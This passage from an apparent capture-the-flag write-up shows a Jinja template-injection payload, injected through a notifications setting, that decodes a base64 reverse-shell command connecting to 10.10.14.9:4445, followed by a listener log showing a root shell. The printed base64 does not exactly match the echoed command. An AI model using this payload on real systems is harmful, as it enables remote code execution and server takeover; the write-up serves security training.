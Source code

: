 ````bash
❯ echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.9/4445 0>&1"' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDQ1IDA+JjE=
````
```javascript
{% raw %}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDQ1IDA+JjE=|base64 -d|bash').read() }}
{% endraw %}
```

Next, we navigate to **Settings > Notifications** and inject our malicious command.

![Usersweb](/assets/trickster/ssti.png)

We set up a listener, in my case using a tool that automates shell stabilization and provides additional useful features. However, you can also use `nc`

````bash
❯ revshell -p 4445
[i] Listening on 0.0.0.0:4445...
[+] Connected by 10.10.11.34:37840
[i] Attempting TTY upgrade...
[+] Binary 'python3' is installed, upgrading shell...
[i] Unsetting histfile...
root@a4b9a36ae7ff:/app# 
````
